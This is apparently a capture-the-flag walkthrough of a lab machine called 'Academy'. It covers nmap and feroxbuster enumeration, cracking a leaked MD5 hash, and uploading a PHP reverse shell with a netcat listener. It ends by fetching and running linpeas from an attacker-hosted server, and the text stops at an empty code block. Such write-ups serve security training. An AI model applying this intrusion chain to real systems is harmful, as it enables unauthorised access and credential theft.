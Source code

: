 # Academy
> 12.10.2023 - 12.10.2023
---
## Enumeration

**Nmap scan**
```bash
nmap -sC -sV 10.10.1.153
```

```
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.1.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:2B:D9:FB (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP server has anonymous login on! It contains an note:

```note.txt
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```

We have gotten the following credentials:
```
StudentRegno: 10201321
studentPhoto: ""
password: cd73502828457d15655bbd7a63fb0bc8
studentName: Rum Ham
pincode: 777777
session: ""
department: ""
semester: ""
cgpa: 7.60
creationdate: 2021-05-29 14:36:56
updationDate: ""
```

The most important credentials are the *StudentRegno* and the *password* hash.

The hash can be cracked by using [CrackStation](https://crackstation.net/): "student" "MD5"

## Webserver

Visiting the webserver, I discovered the Apache standard site. Further directory enumeration can be done with "feroxbuster":

```bash
feroxbuster --url http://10.10.1.153 -x php,html,txt
```

```
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      368l      933w    10701c http://10.10.1.153/index.html
301      GET        9l       28w      315c http://10.10.1.153/phpmyadmin => http://10.10.1.153/phpmyadmin/
200      GET       24l      126w    10356c http://10.10.1.153/icons/openlogo-75.png
200      GET      368l      933w    10701c http://10.10.1.153/
301      GET        9l       28w      312c http://10.10.1.153/academy => http://10.10.1.153/academy/
...
```

The directory: "academy" and "phpmyadmin" can be found.

## Academy

![[Capstone Academy01.png]]

We enter the credentials we have gotten earlier, to login into the account. Now go to the "My Profile" section, we find an unprotected upload section:

![[Capstone Academy02.png]]

To exploit this, start an netcat listener:

```bash
nc -lnvp 4200
```

and upload an reverse php shell with the host IP and port "4200":
[php-reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

If everything goes right, we gain an shell as www-data.

## Lateral movement

Lets upload ["linpeas.sh"](https://github.com/carlospolop/PEASS-ng/releases/download/20231112-0a42c550/linpeas.sh) to enumerate the system:

```bash
# Attacker
python3 -m http.server 6969

# Victim
cd /tmp
wget http://10.10.1.100:6969/linpeas.sh
bash linpeas.sh
```

After analyzing the output, we see an leaked password in a php file:

```

```